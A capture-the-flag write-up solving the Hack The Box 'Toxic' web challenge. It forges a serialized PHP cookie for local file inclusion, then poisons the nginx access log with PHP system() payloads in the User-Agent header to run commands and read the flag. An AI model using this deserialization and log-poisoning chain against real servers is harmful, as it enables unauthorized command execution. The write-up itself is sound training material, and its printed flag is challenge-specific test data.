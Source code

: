 ```yaml
---
title: HTB Toxic(Challenge) Writeup
author: Cerberus
date: 2023-02-26
categories: [writeups, HTB]
tags: [LFI, RCE, PHP]
---
```


## web/Toxic

**Description: Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸**

[zip file](https://app.hackthebox.com/challenges/Toxic) *\*Login to Download*

#### index.php

```php
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

A few pointers to note in this file

- If the `PHPSESSID` cookie is empty, a new **PageModel** object is created and a file attribute is set pointing to */www/index.html*. It is then serialized and base64 encoded and set in a cookie.

- If the `PHPSESSID` cookie is present, it is simply base64 decoded and unserialized.

### Initial Steps

My initial thoughts were to base64 decode and unserialize the cookie and change the file object to read the flag located in `/flag`. So I took the initial cookie and base64 decoded and unserialized it. It gave me and object which looked like this 

> O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}. 

More info about how serializing and deserializing works can be found at [Insecure Deserialization in PHP](https://redfoxsec.com/blog/insecure-deserialization-in-php/). I tried to change the file to point to `/flag` directory, but seems like there was no flag. On looking closer at other files, there was an `entrypoint.sh` file.

#### entrypoint.sh

```sh
#!/bin/ash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

exec "$@"
```

It seems a new random directory for flag is created each time a new instance is spun. So we need to know the exact folder name to read the flag. I decided to look into other files in the folder.

### Analyzing nginx.conf

#### The folder structure

```sh
.
├── build-docker.sh
├── challenge
│   ├── index.html
│   ├── index.php
│   ├── models
│   │   └── PageModel.php
│   └── static
│       ├── basement
│       │   └── help.png
│       ├── css
│       │   └── production.css
│       ├── images
│       │   ├── aircraft.svg
│       │   ├── bucket.svg
│       │   ├── dart-frog.jpg
│       │   ├── drift.svg
│       │   ├── facebook.svg
│       │   ├── favicon.ico
│       │   ├── flask.svg
│       │   ├── instagram.svg
│       │   ├── logo.svg
│       │   ├── newrelic.svg
│       │   ├── presentor.jpg
│       │   ├── ryan1.png
│       │   ├── ryan2.png
│       │   ├── ryan3.png
│       │   ├── ryan4.png
│       │   ├── ryan5.png
│       │   ├── ryan6.png
│       │   ├── segment.svg
│       │   ├── stripe.svg
│       │   ├── twitter.svg
│       │   ├── woman1.jpg
│       │   ├── woman2.jpg
│       │   ├── woman3.jpg
│       │   ├── youtube.svg
│       │   └── zopim.svg
│       └── js
│           └── production.js
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── flag
```

The file that stood out was *nginx.conf*. I decided to give that file a look.

#### nginx.conf

```nginx
user www;
pid /run/nginx.pid;
error_log /dev/stderr info;

events {
    worker_connections 1024;
}

http {
    server_tokens off;
    log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';
    access_log /var/log/nginx/access.log docker;

    charset utf-8;
    keepalive_timeout 20s;
    sendfile on;
    tcp_nopush on;
    client_max_body_size 1M;

    include  /etc/nginx/mime.types;

    server {
        listen 80;
        server_name _;

        index index.php;
        root /www;

        location / {
            try_files $uri $uri/ /index.php?$query_string;
            location ~ \.php$ {
                try_files $uri =404;
                fastcgi_pass unix:/run/php-fpm.sock;
                fastcgi_index index.php;
                fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
                include fastcgi_params;
            }
        }
    }
}
```

The first thing that caught my attention was the `access_log`, that describes where the logs were stored. Next thing is I wrote a simple PHP script that would create the **PageModel** object with file pointing to `/var/log/nginx/access.log`.

```php
<?php
class PageModel
{
    public $file;
}
$page = new PageModel;
$page->file = '/var/log/nginx/access.log';
print(base64_encode(serialize($page)))
?>
```

After updating the cookie and refreshing the page, we are presented with the contents of *access.log* file.

![Contents of /var/log/nginx/access.log](../assets/img/toxic/toxic.png) 
_Contents of /var/log/nginx/access.log_

### The Final Steps

Next thing we could see is how the log is formatted before it is inserted into the log file. The following line shows the configuration.

> log_format docker '$remote_addr $remote_user $status "$request" "$http_referer" "$http_user_agent" ';  
  access_log /var/log/nginx/access.log docker;

We could see the user agent being inserted in the log, which is something an user could control. After a few hours of research and after many attempts of trail and error, I came to know about log poisoning. Considering the application is a PHP application we could try to insert some arbitrary PHP code in the user-agent header and check if it gets executed. Inserting this line of code in the header produces the following result.

```php
<?php system('ls -l /');?>
```

![Contents of /var/log/nginx/access.log with contents of / folder](../assets/img/toxic/toxic1.png) 
_Contents of /var/log/nginx/access.log with contents of / folder_

Now since we have the flag folder we could insert another PHP payload in the user-agent header and read the flag.

```php
<?php system('cat /flag_H3zzM');?>
```

![Contents of /var/log/nginx/access.log with flag](../assets/img/toxic/toxic2.png) 
_Contents of /var/log/nginx/access.log with flag_

**Flag: HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}**